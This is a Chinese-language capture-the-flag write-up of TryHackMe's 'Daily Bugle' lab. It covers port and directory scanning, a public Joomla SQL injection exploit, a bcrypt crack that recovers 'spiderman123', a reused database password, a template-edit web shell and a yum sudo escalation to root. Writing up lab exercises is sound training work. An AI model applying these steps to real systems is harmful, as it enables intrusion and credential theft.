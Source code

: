 ```yaml
---
sidebar_position: 161
tags: [Easy, Linux, SQLI, SUDO]
title: "Daily Bugle"
description: "Daily Bugle"
sidebar_label: "Daily Bugle"
slug: /tryhackme/161
---
```


# Daily Bugle

## 端口扫描

```bash
root@ip-10-10-193-102:~# nmap -sTCV -p 22,80,3306 --min-rate 10000 10.10.175.133

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-15 09:21 BST
Nmap scan report for ip-10-10-175-133.eu-west-1.compute.internal (10.10.175.133)
Host is up (0.00013s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
MAC Address: 02:17:DE:78:6C:6F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
```

## 80

进行目录扫描

```bash
root@ip-10-10-193-102:~/dailybugle# gobuster dir -u http://10.10.175.133/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php.txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.175.133/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php.txt,html
[+] Timeout:        10s
===============================================================
2023/10/15 09:27:37 Starting gobuster
===============================================================
/images (Status: 301)
/templates (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/bin (Status: 301)
/plugins (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/layouts (Status: 301)
/administrator (Status: 301)
/cli (Status: 301)
===============================================================
2023/10/15 09:30:20 Finished
===============================================================
```

访问站点, 我们可以发现其存在一个登陆窗口, 同时我们也可以发现一个 administrator 页面. 通过页面的内容我们可以确定这是一个 joombla CMS

![image-20240709194838069](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194839.png)

在发现其 CMS 之后我马上进行了寻找漏洞, 最后发现一个 sqli , https://github.com/stefanlucas/Exploit-Joomla将其下载进行攻击验证

![image-20240709194845969](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194847.png)

从上面我们可以获取到一个管理员用户, 接着进行暴力破解 (破解时间很长)

```bash
root@ip-10-10-193-102:~/dailybugle# john hash.txt --wordlist=`locate rockyou.txt` -format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:22:23 DONE (2023-10-15 11:22) 0.000744g/s 34.87p/s 34.87c/s 34.87C/s sweet28..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
root@ip-10-10-193-102:~/dailybugle#
```

在破解到密码之后我便登陆了后台管理页面, 之后我在此搜索了如何利用 Joomla 后台获取 Shell, 在这里我选择了修改模板文件

## 后渗透

### apache

访问我们修改的文件之后我们就可以得到一个 Shell

![image-20240709194913442](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194915.png)

 ###apache —> jjameson

按照常理我们肯定要去查看完整的数据库配置文件, 从中获取到密码, 随后我发现其对应的数据库密码是用户jjameson 的密码 

> nv5uz9r3ZEDzVjNu

![image-20240709194922371](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194924.png)

### jjameson —> root

之后我发现 jjameson 用户存在 SUDO 特权 [yum#sudo](https://gtfobins.github.io/gtfobins/yum/#sudo)

![image-20240709194931369](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194933.png)

在这里我使用了第二种方式, 进行提权操作

![image-20240709195000197](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-195001.png)